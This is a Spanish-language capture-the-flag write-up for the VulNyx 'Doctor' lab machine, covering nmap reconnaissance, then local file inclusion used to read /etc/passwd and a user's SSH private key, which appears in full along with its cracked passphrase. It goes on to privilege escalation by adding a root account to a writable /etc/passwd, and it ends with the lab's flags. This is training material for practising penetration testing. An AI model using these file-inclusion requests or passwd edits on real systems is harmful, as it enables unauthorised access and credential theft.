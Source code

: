 https://vulnyx.com/

Mirror, download:
![[Vulnyx - Doctor - img.png]]


## Reconocimiento en la red
![[Vulnyx - Doctor - IP.png]]

sudo arp-scan -I eth0 --localnet

![[Vulnyx - Doctor - Arp-scan.png]]
IP: 192.168.1.139
Ping
![[Vulnyx - Doctor - Ping.png]]

TTL=64 --> Linux

# Reconocimiento

## Nmap

sudo nmap -sS -p- -Pn 192.168.1.139 
![[Vulnyx - Doctor - Nmap.png]]


Nmap Scrip
al 80:
sudo nmap --script "vuln" -p80 192.168.1.139
![[Vulnyx - Doctor - Nmap script 80.png]]


al 22:
sudo nmap --script "vuln" -p22 192.168.1.139

![[Vulnyx - Doctor - Nmap script 22.png]]


No encuentro nada en metasploit para atacar estas vulnerabilidades.
vemos la web que corre en el puerto 80:

![[Vulnyx - Doctor - Web default.png]]

Vamos a hacer ffuf para ver si encontramos algo interesante:


encontramos esta URL:
![[Vulnyx - Doctor - Web URL.png]]http://192.168.1.139/doctor-item.php?include=Doctors.html
y vemos que tiene un include:
le hacemos una peticion curl:
curl -s -X GET "http://192.168.1.139/doctor-item.php?include=/etc/passwd" 


![[Vulnyx - Doctor - curl + user.png]]


Usuario: admin
Conseguimos el id_rsa a través de curl:
curl -s -X GET "http://192.168.1.139/doctor-item.php?include=/home/admin/.ssh/id_rsa"

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----

![[Vulnyx - Doctor - Id_RSA.png]]




lo guardamos en un fichero:
![[Vulnyx - Doctor - idRSAA in a file.png]]
le damos permisos de escritura y ejecucion al fichero
chmod +xw id_rsa

![[Vulnyx - Doctor - id_rsa file.png]]

ahora vamos a udar este fichero para conectar por ssh con el usuario admin

ssh -i id_rsa admin@192.168.1.139
pero nos sale el siguiente mensaje:
Permissions 0755 for 'id_rsa' are too open.
![[Vulnyx - Doctor - permissos incorrectos para el fichero.png]]
volvemos a cambiar los permisos al documento id_rsa:
chmod 600 id_rsa
![[Vulnyx - Doctor - change id_rsa permissions.png]]
y volvemos aintentar conectar:


![[Vulnyx - Doctor - Ssh connection key for id_rsa.png]]


clonamos esta herramienta de este repo:
git clone https://github.com/d4t4s3c/RSAcrack.git


![[Vulnyx - Doctor -  Cambiamos los permisos a RSAcrack.png]]
Le damos permiso de ejecucion a la herramienta y la ejecutamos

![[Vulnyx - Doctor - RSACrack.png]]
y encontramos una contraseña:
![[Vulnyx - Doctor - RSAcrack saca la contraseña.png]]

admin: unicornio
vovemos a intentar hacer el ssh y accedemos ocn la contraseña encontrada:
![[Vulnyx - Doctor - ssh access.png]]


user flag: 0819e6dfb35db7c61353e4dce311b397

![[Vulnyx - Doctor - User flag.png]]

# Escalada de privilegios

ejecutamols:
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd

![[Vulnyx - Doctor - Escalada.png]]
Vemos que el archivo passwd es writeable:


para vulnerasr esto primer generamos una contraseña:
openssl passwd 123456


![[Vulnyx - Doctor - Genrate passrod.png]]

Luego lo agregamos al fichero passwd como root2
echo "root2:2quasw1hUYYNw:0:0;root:/root:/bin/bash" >> /etc/passwd
o mejor entramos con nano /etc/passwd y cambiamos la contraseña del root a mano:


![[Vulnyx - Doctor - Editar fichero passwd en etc.png]]

luego hacemos su y ponemos la contraseña que hemos creado : 123456
![[Vulnyx - Doctor - Root user.png]]

root flag: dfde8cc67ed8819b2386dc74e472ecc6

![[Vulnyx - Doctor - root falg.png]]
